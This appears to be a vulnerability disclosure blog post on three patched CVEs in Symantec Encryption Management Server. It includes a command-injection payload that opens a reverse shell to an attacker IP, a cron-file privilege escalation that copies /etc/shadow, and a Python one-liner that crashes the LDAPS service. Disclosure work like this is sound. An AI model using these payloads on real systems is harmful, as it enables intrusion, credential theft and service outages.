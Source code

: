 ```yaml
---
layout: post
title:  Symantec Encryption Management Server
date:   2016-06-07
author: TheXero
comments: true
categories: advisories
description: The Symantec Encryption Management Server is used by organisations of all sizes and typicly sites within an organisations DMZ. However, during an engagement, a number of serious security vulnerabilities were found within the appliance itself, many of which can lead to Remote Code Execution by an malicious attacker.
excerpt: During a security assessment back in 2015 I came across a fully patched Symantec Encryption Management Server appliance. This product provides secure messaging both between users of the organization...
tags: [symantec, advisory, exploit]
---
```


During a security assessment back in 2015 I came across a fully patched Symantec Encryption Management Server appliance. This product provides secure messaging both between users of the organization and with external users. Each server is managed via an internal administrative web interface. During research time, several issues were discovered and reported to to Symantec.

<h4>OS Command Execution</h4>
Using the administrative search functionality, it was found that user input was handled in an unsafe way. Insufficient validation of the supplied parameters exposed the search functionality to arbitrary command execution. This issue required a user account with low privileged access to the administrative interface. The lowest privilege user role with this level of access is Reporter.

The following text was entered into the search box, which launched a reverse TCP shell to the attackers IP.

    |`/bin/bash -i>& /dev/tcp/10.10.10.10/4444 0>&1`

The resulting reverse shell is executed as user tomcat.

CVE-2015-8151 was assigned to cover the above issue.

<h4>Local Privilege Escalation</h4>

The tomcat user had write access to the file /etc/cron.daily/tomcat.cron. The contents of this file were executed in the context of the root super-user account. Consequently, given command execution (see above), arbitrary commands could be scheduled for execution as root.

    $ ls -al /etc/cron.daily/tomcat.cron
    -rwxrwxr-x 1 root tomcat 88 Jul  6 03:58 /etc/cron.daily/tomcat.cron

As the tomcat user it was possible to append additional content to the daily tomcat cron job. For example, with the command below:

    $ echo 'cat /etc/shadow > /tmp/shadow' >> /etc/cron.daily/tomcat.cron

This cron job was executed is daily and with root privileges.

    $ ls -l /tmp/shadow
    -rw-r—r— 1 root root 825 Jul  6 04:02 /tmp/shadow
    $ cat /tmp/shadow
    root:!!:16612:0:99999:7:::
    bin:*:16612:0:99999:7:::
    daemon:*:16612:0:99999:7:::
    ...

CVE-2015-8150 was assigned to address this issue.

<h4>Heap Based Memory Corruption</h4>
It was also discovered a repeatable crash in the LDAPS service running on the appliance. This could be reproduced using the following simple python command line.

    $ python -c “import socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((‘10.240.28.199’,636)); 
    s.send(‘803a01030100030000002e00000040404141414142424242434343434444313145454545464646464747474731314848494949494a4a4a4a4b4b4b4b’.decode( ‘hex’))”

This will trigger a SIGSEGV signal and the service will exit. Both the LDAP and LDAPS services will not be available until the service has been automatically restarted.

CVE-2015-8149 was assigned to address this issue.

Further details around the patches deployed for the appliance and the Symantec security advisory for these issues can be found at the following link: <a href="https://support.symantec.com/us/en/article.SYMSA1346.html" target="_blank">https://support.symantec.com/us/en/article.SYMSA1346.html</a>
